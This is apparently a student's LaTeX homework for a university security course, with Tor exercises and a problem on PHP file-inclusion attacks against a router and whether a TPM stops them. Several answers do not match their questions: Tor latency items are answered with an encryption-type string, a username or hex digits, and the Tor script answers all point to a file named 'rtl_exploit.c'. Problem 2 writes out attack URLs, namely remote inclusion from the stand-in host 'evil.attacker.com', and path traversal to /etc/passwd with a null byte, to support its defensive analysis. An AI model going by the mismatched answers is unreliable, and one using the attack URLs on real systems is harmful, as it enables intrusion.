% Latex2e homework template for 14-741/18-631 taught by Nicolas Christin
%
\documentclass[12pt]{article}  % Decrease to 10pt if desired

\usepackage[letterpaper,margin=1in]{geometry}
\usepackage{times}
\usepackage{ragged2e}
\usepackage{lastpage}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{mathtools}
\usepackage{listings}
\usepackage{graphicx}
\usepackage[font=small,skip=0pt]{caption}
\pagestyle{fancy}
\addtolength{\parskip}{\baselineskip} %--skip lines between paragraphs
\setlength{\parindent}{0pt} %--don't indent paragraphs
\AtBeginDocument{\raggedright}

%
% Set your personal information here
%
\newcommand{\FirstName}{Shi}
\newcommand{\LastName}{Su}
\newcommand{\AndrewID}{shis}
\newcommand{\CourseNumber}{14-741}
\newcommand{\Campus}{PIT}  % Either PIT or Kobe

%
% Set assignment date here
%
\newcommand{\Date}{11/20/2015}


% Set up headers
\renewcommand{\headrulewidth}{0pt}
\setlength{\headheight}{0.5in}
\lhead{\FirstName~\LastName\\\AndrewID}
\chead{}
\rhead{\CourseNumber~/~\Campus\\\Date}
\lfoot{}
\cfoot{}
\rfoot{Page \thepage~of \pageref{LastPage}}

%Answer block
\newenvironment{answer}{
\setlength\parindent{24pt}
%\par\addvspace{\baselineskip}
}


%
% Begin document
%
\begin{document}

%
% Problem 1
%
\begin{center}
\textbf{Problem \#1 : Using Tor}
\end{center}
\parskip 0pt

%
% Problem 1: Preliminaries
%
 \subsubsection*{1.1 Preliminaries}
1. What is your public IP address?\\
\begin{answer}
public IP address: {\bf 128.237.200.1}\\
\begin{lstlisting}[basicstyle=\linespread{0.5}]
NetRange:       128.237.0.0 - 128.237.255.255
CIDR:           128.237.0.0/16
NetName:        CMU-NET-128-237
NetHandle:      NET-128-237-0-0-1
Parent:         NET128 (NET-128-0-0-0-0)
NetType:        Direct Assignment
OriginAS:       AS9
Organization:   Carnegie Mellon University (CARNEG-Z)
RegDate:        1987-05-06
Updated:        2012-04-02
Ref:            http://whois.arin.net/rest/net/NET-128-237-0-0-1
\end{lstlisting}
completed output available in {\bf shis\_hw4\slash whois.txt}
\end{answer}
\bigskip

2. Display all Tor circuits your machine currently uses, as specified by the list of three Tor relays.\\
\begin{answer}
Script available in {\bf shis\_hw4\slash rtl\_exploit.c}\\

\end{answer}
\medskip

%
% Problem 1: Measuring latency
%
\newpage
 \subsubsection*{1.2 Measuring latencies}
1. Measures the difference between response times with or without going over Tor.\\
\medskip
\begin{answer}
Script available in {\bf shis\_hw4\slash rtl\_exploit.c}\\
\end{answer}
\medskip

2. Give an estimate figure of how much overhead in latency Tor generates on a given connection. Run the above experiment 10 times, changing Tor identities (and thus, circuits) but connecting to the same website for each of the 10 runs, and provide a table summarizing the results.\\
\begin{answer}
shis
\end{answer}
\medskip

3. Measure the latency of connecting to Tor hidden service http://3g2upl4pq6kufc4m.onion/. Compare it to the latency to its ?clearnet? version https: //duckduckgo.com/ using the Tor network, and bypassing the Tor network.\\
\begin{answer}
aes256-cts-hmac-sha1-96
\end{answer}
\medskip

%
% Problem 1: Using exits to circumvent censorship
%
\newpage
 \subsubsection*{1.3 Using exits to circumvent censorship}
1. Try to connect to http://dogo.ece.cmu.edu/tor-homework/public/ and http:// dogo.ece.cmu.edu/tor-homework/secret/ using a regular browser. How different are the results?\\
\begin{answer}
First 8 hexadecimal digits: 72BE3CCE
\begin{figure}[h]
\centering
  
\includegraphics[scale=0.5]{ENCRYPT-TICKET.png}\\
 \caption{Encrypt Ticket}
 \end{figure}
\end{answer}
\medskip

2. Write a Stem script to constrain Tor to specific exits in different countries.\\
\begin{answer}
Script available in {\bf shis\_hw4\slash rtl\_exploit.c}\\
\end{answer}
\medskip

3. Use your script to find as many countries as possible in which the website http://dogo.ece. cmu.edu/tor-homework/secret/ is not blocked. Provide a list of these countries, as well as the exact date/time at which you made each request verifying that each of these countries was not blocked.\\
\begin{answer}

\end{answer}
\medskip



%
% Problem 2: 
%
\newpage
\begin{center}
\textbf{Problem \#2 : WikiLeaks and anonymity}
\end{center}

1. ``But since the server is running HTTPS, it is perfectly secure." Explain why this reasoning is completely flawed.\\
\begin{answer}
HTTPS only encrypts the connection and ensures confidentiality, but will still loyally pass the malicious input string to the unprotected php server. So the system is still vulnerable to the file include attack mentioned above.
\end{answer}
\bigskip

2. Whether or not the TPM could prevent the attacks from succeeding. If the attacks can be foiled, explain how. If they cannot, state why:\\
\begin{answer}
\begin{itemize}
\item  https://10.0.0.1/index.php?TOKEN\_TYPE=http://evil.attacker.com/exploit?\\
This attack can be foiled by TPM, each program will be verified by local or remote verifier at load time, as when loading the downloaded program, PCRs will be update with contents that are unknown to the verifier, thus the exploit program cannot pass the attestation.

\item https://10.0.0.1/index.php?TOKEN\_TYPE=/tmp/exploit\\
This attack can be foiled by TPM, each program will be verified by local or remote verifier at load time, as when loading the uploaded program, PCRs will be update with contents that are unknown to the verifier, thus the exploit program cannot pass the attestation.

\item https://10.0.0.1/index.php/index.php?TOKEN\_TYPE=../../../../../. ./../../etc/passwd\%00\\
This attack cannot be foiled by TPM, as the index.php already been attested by TPM, and it tries to load the file already existed on the router, the process doesn't modify anything on the device, so the attack can be carried out. 
\end{itemize}

\end{answer}
\medskip

3. Is the update procedure secure? Justify your answer, by either proving its security, or giving an example of attack against it.\\
\begin{answer}
The update procedure is not secure.\\
1) The router is using HTTP to connect to webserver, the traffic can be observed by attackers.
2) After the file BIOS.COM is downloaded, there's no step to verify the checksum of the file, so we cannot be sure about its data integrity, might be possible that the file got corrupted during transfer or being changed by attacker.\\
3) After new firmware updated, the content of PCRs will also be changed, which might cause problem for accessing the data sealed by old PCR values. [1]\\ 
%3) Besides, the TPM only attests all {\bf software} on the router, there's no verification for the firmwares.

\end{answer}
\medskip
[1] Thinkwiki.org,. (2015). Embedded Security Subsystem - ThinkWiki. Retrieved 23 November 2015, from http://www.thinkwiki.org/wiki/Embedded\_Security\_Subsystem

\end{document}